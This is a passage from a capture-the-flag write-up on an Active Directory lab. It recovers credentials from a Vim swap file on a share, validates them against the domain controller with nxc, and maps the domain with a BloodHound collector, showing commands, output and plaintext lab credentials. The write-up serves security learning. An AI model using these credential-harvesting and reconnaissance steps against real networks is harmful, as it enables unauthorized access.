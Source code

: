 Based on the description of the challenge, we'll know that the next flag requires us to obtain local access to the `sql01.antennae.rv` machine. This need not be administrative access, as it is mentioned that the flag can be read by all local users.

In the `service-home` share, we find a `.env.swp` file, which is a [Vim swap file](https://vi.stackexchange.com/questions/177/what-is-the-purpose-of-swap-files). A quick google search reveals that: `Swap files store changes you've made to the buffer. If Vim or your computer crashes, they allow you to recover those changes.`. You may also find that after opening a file in `vim`, a `.<filename>.swp` file is created in the same directory.

We can "recover" the contents of this swap file using the `vim -r` command, and find that it contains credentials for the `jolene.ong` user.

```
~$ vim -r .env.swp
:w .env.swp.recv

~$ cat .env.swp.recv      
HORIZON_SERVER=broker.antennae.rv
HORIZON_USER=jolene.ong
HORIZON_PASS=BoXALrqvqPd3
```

We can verify that these credentials are valid by attempting to authenticate to the `antennae.rv` domain controller `dc01.antennae.rv`:

```
~$ nxc ldap dc01.antennae.rv -u 'jolene.ong' -p 'BoXALrqvqPd3'                                                                            
LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\jolene.ong:BoXALrqvqPd3 
```

At this point, we can run a [bloodhound](https://github.com/SpecterOps/BloodHound) collector to begin mapping out the Active Directory environment. We can use 
[bloodhound-ce-python](https://github.com/dirkjanm/BloodHound.py/tree/bloodhound-ce) for this.

> Note that this could have been done earlier as well, but was not necessary for capturing the first flag.

```
~$ bloodhound-ce-python -u 'jolene.ong' -p 'BoXALrqvqPd3' -d 'antennae.rv' -c 'All' -ns '10.5.10.10' --zip
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: antennae.rv
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.antennae.rv
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.antennae.rv
INFO: Found 22 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: SQL01.antennae.rv
INFO: Querying computer: DC01.antennae.rv
INFO: Done in 00M 04S
INFO: Compressing output into 20250907091433_bloodhound.zip
```
